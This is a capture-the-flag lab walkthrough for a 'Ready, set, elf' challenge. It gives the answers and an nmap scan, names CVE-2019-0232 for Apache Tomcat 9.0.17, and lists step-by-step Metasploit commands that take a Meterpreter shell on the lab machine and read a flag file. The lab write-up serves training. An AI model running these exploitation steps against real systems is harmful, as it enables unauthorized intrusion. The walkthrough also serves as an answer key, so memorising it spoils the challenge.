 # [Day 12] Networking - Ready, set, elf

## Topics

- Vulnerabilities
- CGI (Common Gateway Interface)
- Metasploit

### 1. What is the version number of the web server?
```
9.0.17
```
First, we'll do a simple nmap scan `nmap 10.10.x.x -sV -T4`

__important output:__
```
Not shown: 996 filtered ports
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
8080/tcp open  http-proxy
```
From this, we can assume the webserver is going through the proxy in port 8080, so we enter the URL `10.10.x.x:8080`.\
When you enter, you should see version `Apache Tomcat/9.0.17`

### 2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)
```
CVE-2019-0232
```
By just googling `Apache Tomcat/9.0.17 cve` you should find a cve details page, and one of the cve in the list should be the one we are looking for.

### 3. Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

1. Activate the metasploit console with `msfconsole`. 
2. Once on metasploit, use the exploit that we found `use exploit/windows/http/tomcat_cgi_cmdlineargs`
3. Check the `options` that we have to set:
    - `set RHOSTS [TARGET_MACHINE_IP]`
    - `set RPORT 8080`
    - `set TARGETURI http://10.10.x.x:8080/cgi-bin/elfwhacker.bat`
        - The targte URI can be found by reading the explanation and the challenge prompt
4. Once all the options are set, exploit it with `exploit`
5. After it finishes, you should have meterpreter available. Activate a shell with `shell`
6. You should get a Windows shell. To list all files and directories, use `dir`. The flag should be found in the same directory you are dropped in at first.

### 4. What are the contents of flag1.txt?

To view the contents of a file, use `type flag1.txt`